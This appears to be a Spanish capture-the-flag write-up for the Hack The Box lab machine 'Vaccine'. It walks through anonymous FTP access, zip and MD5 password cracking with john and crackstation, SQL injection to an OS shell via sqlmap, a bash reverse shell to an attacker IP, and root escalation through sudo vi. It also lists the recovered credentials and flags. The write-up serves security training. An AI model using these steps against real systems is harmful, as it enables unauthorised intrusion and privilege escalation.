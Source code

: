 ```yaml
---
title: Máquina Vaccine
published: true
---
```


Jorge Marco Arráez

Temas tratados:

*   Crackeo de fichero .zip

*   Contraseñas a partir de hashes

*   Vulnerabilidades de bases de datos

## [](#header-3) 1)   Besides SSH and HTTP, what other service is hosted on this box?

```
nmap -sCV --min-rate 5000 -n -oG nmap/allPorts -Pn $IP
```

```
FTP en el puerto 21
SSH en el puerto 22 -> Versión: OpenSSH 8.0p1 Ubuntu 6ubuntu0.1
HTTP en el puerto 80 -> Versión del servidor: Apache httpd 2.4.41 ((Ubuntu))
```

La página web es la siguiente:

![imagen de login](../assets/capturas_maquinas/HTB/vaccine/1-login.png)

## [](#header-3) 2)    This service can be configured to allow login with any password for specific username. What is that username?


Como ya hemos visto en máquinas anteriores, FTP permite registrarse sin contraseña al usuario "anonymous".


## [](#header-3) 3)  What is the name of the file downloaded over this service?

Al conectarme con FTP, veo que usa la versión vsFTPd 3.0.3

```
username = "anonymous"
password = ""
get backup.zip
```

## [](#header-3) 4) What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/2-john.png)

```
zip2john backup.zip > hash.txt

john -w=/home/jorge/Descargas/rockyou.txt hash.txt
john --show 
```

La contraseña es: 
```
741852963
```

## [](#header-3) 5)  What is the password for the admin user on the website?

La contraseña no está en plano en el arhchivo .php, lo que está es el hash md5 de la contraseña.

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/3-contra_admin.png)

El hash es: "2cb42f8734ea607eefed3b70af13bbd3".

Con crackstation.net podemos encontrar la contraseña: "qwerty789".

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/4-crackstation.png)

## [](#header-3) 6)    What option can be passed to sqlmap to try to get command execution via the sql injection?

Si ejecutamos sqlmap -h para ver la ayuda del programa, vemos que la opción que nos interesa es --os-shell.

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/6-sqlmap.png)

## [](#header-3) 7)    What program can the postgres user run as root using sudo?

vi

## [](#header-3) 8)  Submit user flag

Usando sqlmap conseguimos una os-shell.

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/7-comadno_sqlmap.png)


Donde el valor de cookie es el que obtenemos al iniciar sesion en la página como admin con la contraseña qwerty789.

Obtenemos acceso a una shell donde podemos establecer una reverse shell con nuestro ordenador con:

```
bash -c "bash -i >& /dev/tcp/10.10.15.224/443 0>&1"
```

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/9-reverse.png)


Ahora hay que convertir esta reverse shell en una reverse shell estable para poder trabajar sin que expire la sesión.

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

cd /var/lib/postgresql
xxd user.txt
```

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/10-userflag.png)

```
user=ec9b13ca4d6229cd5cc1e09980965bf7
```

## [](#header-3) 9)  Submit root flag


```
cd /var/www/html
cat dashboard.php
```

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/11-dashboardphp.png)

```
username=postgres
password=P@s5w0rd!
```

Podemos usar esas credenciales para establecer una sesión ssh.

```
ssh postgres@10.129.95.174
P@s5w0rd!
```

Así es más cómodo ya que no hay que estabilizar la shell.
Una vez dentro, vemos que privilegios tiene el usuario postgres

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/12-sudo-l.png)

Puede ejecutar /bin/vi para editar el archivo "pg_hba.conf".

Busco en internet y encuentro la siguiente página:

https://gtfobins.github.io/gtfobins/vi/#sudo

Al añadir las líneas especificadas en la sección shell b):

```
vi
:set shell=/bin/sh
:shell
```

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/13-rootflag.png)

Nos hemos convertido en root.

```
root=dd6e058e814260bc70e9bbdef2715849
```

![texto_alternativo](../assets/capturas_maquinas/HTB/vaccine/14-pwn.png)